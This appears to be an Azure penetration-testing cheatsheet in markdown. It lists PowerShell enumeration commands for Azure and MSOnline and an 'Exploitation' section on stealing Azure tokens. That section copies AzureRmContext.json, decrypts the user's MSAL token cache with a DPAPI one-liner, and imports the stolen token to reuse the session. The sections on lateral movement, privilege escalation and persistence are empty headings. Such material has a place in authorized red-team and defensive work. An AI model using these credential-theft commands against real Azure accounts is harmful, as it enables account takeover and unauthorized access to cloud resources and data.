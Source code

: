 # Azure pentesting cheatsheet
## Enumeration
#### Connect to Azure
```
Connect-AzAccount
```

#### Connect to MSOL
```
connect-msolservice
```

#### Get basic information
- Interesting information: UsersPermissionToReadOtherUsersEnabled, DirSyncServiceAccount, PasswordSynchronizationEnabled, Address/phone/emails
```
Get-MSolCompanyInformation
```

#### Get the AZ subscriptions the user has access too
```
Get-AzSubscription
```

#### List the current context
```
Get-AzContext | fl *
```

#### Enumerate the roles of the current user
```
Get-AzRoleAssignment
```

#### List users of the subscription
```
Get-MSolUser -All
```

#### Get all commands for AZ and MSOnline
```
Get-Module -Name Az.Accounts | Select-Object -ExpandProperty ExportedCommands
Get-Module -Name MSOnline | Select-Object -ExpandProperty ExportedCommands
```

## Lateral Movement

## Exploitation
### Stealing Azure tokens
- https://github.com/rvrsh3ll/TokenTactics
### Method 1
#### Save the AzureRmContext.json
```
cp %USERPROFILE%\.Azure\AzureRmContext.json C:\temp\AzureRmContext.json
```

#### Get the authenticated token for the user
```
Add-Type -AssemblyName System.Security; [Convert]::ToBase64String([Security.Cryptography.ProtectedData]::Unprotect((([Text.Encoding]::Default).GetBytes((Get-Content -raw "$env:userprofile\AppData\Local\.IdentityService\msal.cache"))), $null, [Security.Cryptography.DataProtectionScope]::CurrentUser))
```

#### Save the token into AzureRmContext.json
-  Open AzureRmContext.json file in a notepad and find the line near the end of the file title “CacheData”. It should be null.

#### Import the token
```
Import-AzContext -Path 'C:\Temp\Live Tokens\StolenToken.json’
```

### Method 2
#### Save azcontext
```
Save-AzContext -Path C:\Temp\AzureAccessToken.json
```

#### Import the token
```
Import-AzContext -Path 'C:\Temp\Live Tokens\StolenToken.json’
```

## Privilege escalation

## Persistence
